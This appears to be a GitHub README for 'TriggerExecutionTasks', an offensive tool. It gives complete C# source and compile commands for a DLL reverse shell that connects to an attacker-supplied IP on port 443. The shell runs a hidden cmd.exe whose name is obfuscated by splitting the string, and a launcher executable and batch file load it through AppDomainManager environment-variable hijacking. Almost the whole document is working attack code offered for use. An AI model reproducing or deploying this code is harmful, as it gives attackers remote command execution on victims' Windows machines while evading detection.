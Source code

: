 # TriggerExecutionTasks
Trigger execution of tasks.dll from C# calling embedded JavaScript, both files must be in same folder.

C# code, reverse shell
Compile: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:anycpu /r:System.Management.Automation.dll /target:library /unsafe tasks.cs

```
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;
using System.Reflection;
using System.Reflection.Emit;
using System.Collections;
using System.Collections.Generic;
using System.Net;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Net.Sockets;
using System.Activities;
using System.Workflow.Activities;


public sealed class MyShell : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        MyProgram.Start.InitiateConnection();
        return;
    }

} 


namespace MyProgram
{

public class Start : SequentialWorkflowActivity
{
  static StreamWriter streamWriter;

  public static string InitiateConnection()
  {
    using(TcpClient tt1 = new TcpClient("YOUR-IP", 443))
    {
      using(Stream stream = tt1.GetStream())
      {
        using(StreamReader tt3 = new StreamReader(stream))
        {
          streamWriter = new StreamWriter(stream);

          StringBuilder kk1 = new StringBuilder();

          Process tt2 = new Process();
          string rr1 = "cm";
          string rr2 = "d.";
          string rr3 = "ex";
          string rr4 = "e";
          string res1 = rr1 + rr2 + rr3 + rr4;
          tt2.StartInfo.FileName = res1;
          tt2.StartInfo.CreateNoWindow = true;
          tt2.StartInfo.UseShellExecute = false;
          tt2.StartInfo.RedirectStandardOutput = true;
          tt2.StartInfo.RedirectStandardInput = true;
          tt2.StartInfo.RedirectStandardError = true;
          tt2.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
          tt2.Start();
          tt2.BeginOutputReadLine();

          while(true)
          {
            kk1.Append(tt3.ReadLine());
            tt2.StandardInput.WriteLine(kk1);
            kk1.Remove(0, kk1.Length);
          }
        }
      }
    }
  }

  private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
      {
          StringBuilder kk2 = new StringBuilder();

          if (!String.IsNullOrEmpty(outLine.Data))
          {
              try
              {
                  kk2.Append(outLine.Data);
                  streamWriter.WriteLine(kk2);
                  streamWriter.Flush();
              }
              catch (Exception err) { }
          }
      }
}
}

```

C# code, 
compile: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:anycpu /target:exe /unsafe sysobj.cs

```
using System;

public class MyProgram
{
    public static void Main(string[] args)
    {
        Type scriptType = Type.GetTypeFromCLSID(Guid.Parse("31D2B969-7608-426E-9D8E-A09FC9A5ACDC"));
        dynamic obj = Activator.CreateInstance(scriptType, false);
        obj.Language = "javascript";
        string script = @"new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319'; new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null'; new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyShell'; Trigger=new ActiveXObject('System.Object'); close();";
        obj.Eval(script);

    }
}
```

UPDATE 16/3

I did a mistake, when setting enviroment variables within code, a new process must be started to reflect the new settings, there are two options, run from .bat script or from within sysobj.exe set enviroment variable, drop new file and execute it.

trigger.bat:

```
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyShell
set COMPLUS_Version=v4.0.30319
sysobj.exe
```

the sysobj.cs should look like this:

sysobj.cs:

```
using System;

public class MyProgram
{
    public static void Main(string[] args)
    {
        Type scriptType = Type.GetTypeFromCLSID(Guid.Parse("31D2B969-7608-426E-9D8E-A09FC9A5ACDC"));
        dynamic obj = Activator.CreateInstance(scriptType, false);
        obj.Language = "javascript";
        string script = @"Trigger=new ActiveXObject('System.Object');";
        obj.Eval(script);
    }

}

```
